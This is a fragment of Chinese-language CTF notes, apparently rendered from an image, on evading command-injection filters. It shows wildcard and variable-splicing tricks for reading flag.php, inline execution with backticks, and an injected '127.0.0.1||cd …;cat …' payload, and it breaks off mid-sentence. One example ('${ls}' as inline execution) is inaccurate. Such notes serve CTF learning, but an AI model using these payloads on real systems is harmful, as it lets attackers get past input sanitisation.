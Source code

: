 ###### cat
```python
/bin/cat/ 可以通配为：
/???/?a?/
```

##### 字符串通配
```python
flag.php ==> flag.???
             flag*
             ……
```

当然可以用通配符去通配一些命令，但不能全名称通配

```python
例如：
/bin/ca?
相当于cat命令
```

#### <font style="color:rgb(79, 79, 79);">变量拼接绕过正则</font>
可以在shell语句里定义变量，将被过滤的字符串分成部分绕过

```python
以flag.php为例:
 
x=lag;cat f$x.php
 
相当于:
 
cat flag.php
```

#### 内联执行
内联执行就是在一条shell语句中内嵌子shell语句,用主shell语句处理子语句的结果

可用于内联语句的符号you ${},``（反引号）

例如:

```python
echo `ls`
 
echo ${ls}
 
相当于把ls的结果使用echo输出
```

#### **<font style="color:rgb(77, 77, 77);">过滤目录分割符</font>**
```python
采用多管道命令绕过
127.0.0.1||cd flag_is_here;cat flag_262431433226364.php
```

或者用以下符号来替代
